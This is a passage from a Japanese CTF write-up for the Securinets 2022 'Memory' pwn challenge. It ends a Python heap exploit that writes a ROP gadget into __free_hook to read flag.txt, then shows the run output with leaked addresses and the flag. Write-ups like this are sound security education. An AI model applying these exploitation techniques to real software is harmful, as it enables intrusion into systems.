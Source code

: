 ```python
buf += p64(syscall_ret)
buf += b"./flag.txt\x00"
Alloc(0x200, buf)

# Write ROP gadget address(mov rdx, qword ptr [rdi + 8];...) in __free_hook
Alloc(0x70, p64(0)+p64(heap_base+0x22c0)+p64(mov_rdx_rdi))

# Start ROP chain
Free()

s.interactive()
```

## Results:
実行結果は下記になります。
```bash
mito@ubuntu:~/CTF/Securinets_CTF_Quals_2022/Pwn_Memory$ python3 solve.py r
[*] '/home/mito/CTF/Securinets_CTF_Quals_2022/Pwn_Memory/memory'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 20.216.39.14 on port 1235: Done
[*] '/home/mito/CTF/Securinets_CTF_Quals_2022/Pwn_Memory/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
heap_leak = 0x564b41f2020a
heap_base = 0x564b41f1e000
libc_leak = 0x7f131dcb4c40
libc_base = 0x7f131dac8000
[*] Switching to interactive mode
Securinets{397b5541d6dacf89123c5a24eea45cb7cc526dade67d4a70}   
```

## Reference:
参考文献は下記になります。Midasさん、ありがとうございます！

https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/
